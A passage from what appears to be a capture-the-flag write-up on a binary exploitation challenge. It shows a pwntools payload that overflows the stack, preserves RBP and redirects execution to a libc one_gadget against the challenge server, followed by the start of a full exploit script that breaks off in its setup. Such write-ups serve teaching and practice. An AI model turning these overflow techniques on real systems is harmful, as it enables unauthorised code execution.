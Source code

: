 since we're back on main, just overflow it again with preserving RBP on stack to `one_gadget`

```python
# 0x50a47, 0xebc81, 0xebc85, 0xebc88
payload = flat({
    64: [
        stack - 0x120,          # rbp of help_me
        libc.address + 0xebc81  # one_gadget
    ]
})
io.sendlineafter(b'be?!', payload)
```

running againts the remote server

<figure><img src="../../.gitbook/assets/image (204).png" alt="" width="563"><figcaption></figcaption></figure>

Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'gold.b01le.rs', 4008

def initialize(argv=[]):
```